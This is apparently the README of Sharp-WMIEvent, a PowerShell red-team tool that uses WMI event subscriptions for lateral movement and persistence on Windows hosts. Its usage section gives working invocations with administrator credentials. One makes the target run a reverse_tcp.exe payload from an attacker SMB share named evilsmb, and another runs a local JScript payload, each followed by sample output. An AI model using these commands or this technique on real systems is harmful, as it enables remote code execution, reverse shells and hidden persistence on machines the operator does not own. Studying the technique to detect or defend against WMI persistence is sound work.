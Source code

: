 # Sharp-WMIEvent

## Synopsis

The script realizes intranet lateral movement and permission persistence through WMI event subscription.

## Description

WMI provides a robust event system that can be used to respond to almost any event that occurs on the operating system. For example, when a process is created, a specific action can be performed by subscribing to WMI events. Among them, the specific conditions for triggering an event are called "Event Filter", such as user login, new process creation, etc.; the response to the occurrence of a specified event is called "Event Consumer", Including a series of specific operations, such as running scripts, recording logs, sending emails, etc. When deploying event subscriptions, you need to build Filter and Consumer separately and bind them together. For details, please refer to the relevant documents provided by Microsoft.

Hackers can use the capabilities of WMI to deploy permanent event subscriptions on remote hosts and execute arbitrary code or other actions when that event occurs. ActiveScriptEventConsumer and CommandLineEventConsumer in the event consumption class are mainly used. These two Event Consumers can execute any payload on a remote host in a fileless manner. This technique is mainly used to complete permissions persistence on the target system, and can also be used for lateral movement, and requires user credentials that provide administrator permissions on the remote host. For more details, please read the relevant articles in Link by yourself.

## Usage

Execute attack payload in SMB share.

```powershell
PS C:\Users\Administrator> Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator> Sharp-WMIEvent -ConsumerType Command -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -Command "C:\Windows\System32\cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName Test -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

Execute the attack payload in the local payload.js script file.

```powershell
PS C:\Users\Administrator>Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator>Sharp-WMIEvent -ConsumerType JScript -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -ScriptPath C:\Folder\Sharp-WMIEvent\payload.js -FilterName Test -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

## Link

https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/

https://github.com/lengjibo/RedTeamTools/blob/master/windows/WMIShell
